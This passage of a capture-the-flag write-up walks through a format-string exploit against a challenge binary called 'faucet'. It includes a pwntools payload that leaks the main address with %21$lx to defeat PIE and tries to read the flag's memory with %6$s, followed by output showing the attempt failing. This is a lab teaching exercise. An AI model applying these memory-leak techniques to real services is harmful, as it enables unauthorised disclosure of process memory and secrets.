```
25 - AAAABBBB 0x7fffbdec0fd0
```
From the output we can see that our input is being stored at postion 6 of the stack. The character "A" is '0x41' and "B" is '0x42' in hexadecimal representation. This means that we are able to pass in the memory address of where the ```FLAG``` is stored and access the memory address at the specific stack location (which was found to be 6), and possibly peek at the contents stored in there. We can peek at the contents at the memory address using the format string identifier "%s".

Now, to obtain the memory address of where the ```FLAG``` is stored, I noticed that at stack position 21, the last 3 digits seems to correspond to the last 3 digits of the ```main``` function address location in the disassembled binary file, which was ```0x00101621```. Thus, using this information, I can print out the location of the stack that stores the ```main``` memory address, and compute the base address of the binary. Then, using the base address of the binary, I will be able to compute the actual memory address of where the ```FLAG``` is stored.

So using the intel gathered, I computed the address of where the ```FLAG``` is stored, and attempted to print out the flag.

Payload:
```python
# print out main addr
r.sendlineafter(">", b"5")
r.sendline("%21$lx")
r.recvuntil("a ")
ret = int(r.recvuntil("\n", drop = True).decode(), 16)
print("Main memory addr: ", hex(ret))

# calculating base address
elf.address = ret - elf.symbols.main
print("Base addr: ", hex(elf.address))

# payload
payload = p64(elf.symbols.FLAG)
payload += b"%6$s"
print("FLAG addr: ", hex(elf.symbols.FLAG))

# send payload to get flag
r.sendlineafter(">", b"5")
r.sendline(payload)

r.interactive()
```

However, the above payload did not work...

Output:
```
[*] '/root/hacktivity/faucet'
Arch:     amd64-64-little     
RELRO:    Full RELRO         
Stack:    Canary found       
NX:       NX enabled         
PIE:      PIE enabled      
[+] Opening connection to challenge.ctf.games on port 31569: Done    
Main memory addr:  0x561caf7bc621        
Base addr:  0x561caf7bb000              
FLAG addr:  0x561caf7bf060     
[*] Switching to interactive mode         
What item would you like to buy?: You have bought a `\x80b\xef\xa5U          
[1] Hit it with a hammer.      
[2] Tighten the pipe with a wrench.      
[3] Put a bucket under the leak.          
[4] Call a plumber.       
[5] Buy item from the hardware store.     
> $
```